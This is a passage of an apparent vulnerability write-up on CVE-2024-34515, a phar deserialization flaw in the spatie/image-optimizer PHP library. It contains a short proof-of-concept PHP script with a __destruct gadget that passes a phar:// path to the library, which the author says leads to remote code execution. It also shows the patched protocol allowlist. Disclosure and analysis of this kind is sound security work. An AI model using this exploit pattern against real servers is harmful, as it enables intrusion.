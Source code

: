 ```php

...
```

We can see file_exists when we create an Image object and it also triggers phar deserialization.

### POC

```php
<?php
class User{
    private $name;
    private $age;
    private $func = "touch";
    function __construct($name, $age){
        $this->name = $name;
        $this->age = $age;
    }
    function __destruct(){
        call_user_func( $this->func, 'user/'.$this->name.'.json' );
    }
}

require __DIR__ . '/vendor/autoload.php';

use Spatie\ImageOptimizer\OptimizerChainFactory;

$optimizerChain = OptimizerChainFactory::create();

$optimizerChain->optimize("phar://test.phar");
?>
```

There are lots of warnings, but it still results in RCE on the server.

![image](https://hackmd.io/_uploads/r1T90wudgl.png)

### Fixing

Version 1.7.3 of this library fixes this CVE by using regex to split url and allowes only file:// protocol [CVE-2024-34515](https://github.com/spatie/image-optimizer/blob/d4f0d09c44700c78d1718cd40da404b1c800b935/src/Image.php#L10)

```php
class Image
{
    protected $pathToImage = '';
    protected const ALLOWED_PROTOCOLS = ['file'];

    protected const WINDOWS_LOCAL_FILENAME_REGEX = '/^[a-z]:(?:[\\\\\/]?(?:[\w\s!#()-]+|[\.]{1,2})+)*[\\\\\/]?/i';

public function __construct(string $pathToImage)
{
    if (! $this->isProtocolAllowed($pathToImage)) {
        throw new InvalidArgumentException(\sprintf('The output file scheme is not supported. Expected one of [\'%s\'].', \implode('\', \'', self::ALLOWED_PROTOCOLS)));
    }

    if (! file_exists($pathToImage)) {
        throw new InvalidArgumentException("`{$pathToImage}` does not exist");
    }

    $this->pathToImage = $pathToImage;
}
```